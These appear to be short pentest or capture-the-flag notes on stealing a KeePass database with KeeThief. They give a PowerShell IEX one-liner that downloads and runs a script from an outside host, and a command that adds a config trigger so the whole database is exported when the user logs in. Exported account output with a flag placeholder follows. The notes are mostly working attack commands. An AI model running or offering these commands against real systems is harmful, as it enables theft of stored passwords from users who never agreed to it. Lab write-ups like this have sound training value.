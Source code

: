 # KeePass KeeThief

### KeePass

* Used the KeeThief Config Trigger that will dump the entire database once the user logs in:
* pull down to box with&#x20;

```
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.15.45:8080/KeePassConfig.ps1')
```

* run with&#x20;

```
Add-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose -ExportPath C:\Windows\Tasks
```

```
KeePass
Used the KeeThief Config Trigger that will dump the entire database once the user logs in:
downloaded with: 
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.15.45:8080/KeePassConfig.ps1')
ran with:
Add-KeePassConfigTrigger -Path $env:appdata\KeePass\KeePass.config.xml -Verbose -ExportPath C:\Windows\Tasks

"Account","Login Name","Password","Web Site","Comments"
"Admin Account","ngodfrey_adm","PASSWORD","",""
"Flag","","FLAG{XXX}","",""
```
